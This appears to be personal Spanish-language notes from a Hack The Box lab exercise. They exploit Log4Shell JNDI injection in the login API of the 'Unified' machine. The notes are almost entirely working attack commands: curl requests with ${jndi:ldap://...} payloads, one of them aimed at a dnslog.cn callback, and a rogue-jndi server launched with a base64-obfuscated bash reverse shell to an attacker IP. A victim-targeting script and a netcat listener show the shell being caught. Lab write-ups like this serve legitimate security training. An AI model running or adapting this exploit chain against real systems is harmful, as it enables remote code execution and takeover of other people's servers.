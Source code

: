 
curl -i -s -k -X POST -H $'Host: unified:8443' -H $'Content-Length: 108' --data-binary $'{\"username\":\"admin\",\"password\":\"admin\",\"remember\":\"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://unified:8443/api/login'

git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package

java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC4xMS41MC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "192.168.11.50"

# GET A revershe shell

#Original comand:
curl -i -s -k -X POST -H $'Host: 192.168.11.10:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://192.168.11.50:1389/o=tomcat}\",\"strict\":true}' $'https://192.168.11.10:8443/api/login'


Para el comando final ver ./curl_get_revershe_shell.sh

Hay que tener muy en cuenta la longitud. 


 

echo '{"username":"admin","password":"admin","remember":"${jndi:ldap://10.10.14.163:1389/o=tomcat}","strict":true}' | wc -c
109

Al contar la longitud da 109. Hay que restarle 1 y la longitud queda en 108:

cat curl_get_revershe_shell.sh
#!/bin/bash
host=10.10.14.163
victim=10.129.141.95

curl -i -s -k -X POST -H $"Host: $victim:8443" -H 'Content-Length: 108' --data-binary $'{\"username\":\"admin\",\"password\":\"admin\",\"remember\":\"${jndi:ldap://10.10.14.163:1389/o=tomcat}\",\"strict\":true}' $"https://$victim:8443/api/login"


REPUESTA
========

Access-Control-Expose-Headers: Access-Control-Allow-Origin,Access-Control-Allow-Credentials
X-Frame-Options: DENY
Content-Type: application/json;charset=UTF-8
Content-Length: 64
Date: Tue, 24 May 2022 19:57:04 GMT
Connection: close

{"meta":{"rc":"error","msg":"api.err.InvalidPayload"},"data":[]}                                                                                                       
┌──(kali㉿kali)-[~/…/hackthebox/TIER2/unified/rogue-jndi]
└─$ 

SHELL INVERSA CONSEGUIDA
========================
─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.163] from (UNKNOWN) [10.129.141.95] 47518
ls
bin
data
dl
lib
logs
run
webapps
work
